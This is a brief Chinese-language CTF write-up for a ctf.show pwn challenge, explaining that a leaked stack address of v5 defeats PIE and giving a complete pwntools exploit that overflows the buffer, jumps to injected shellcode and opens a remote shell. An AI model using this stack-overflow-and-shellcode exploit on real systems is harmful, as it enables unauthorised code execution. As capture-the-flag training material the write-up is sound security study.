 # 挑战简介
输出了什么？

# 思路
printf,格式化字符串得代表;由于开启了pie，所以地址随机，因此printf输出的内容至关重要  

可以知道，这里%p输出得是v5得地址，因此payload得构造可以为“栈溢出+v5得地址+payload”  

```
from pwn import *
from LibcSearcher import *
context.log_level = "debug"

context(os='linux', arch='amd64', log_level='debug')

p = remote("pwn.challenge.ctf.show",28157)
elf = ELF('D:\edge 下载\pwn')
    
shellcode = asm(shellcraft.sh())

p.recvuntil("What's this : [")
	
v5=int(p.recv(14),16)

print("v5:",hex(v5))

p.recvuntil("But how to use it?\n")

payload = b"a" * 24 + p64(v5 + 32) + shellcode

p.sendline(payload)

p.interactive()

```
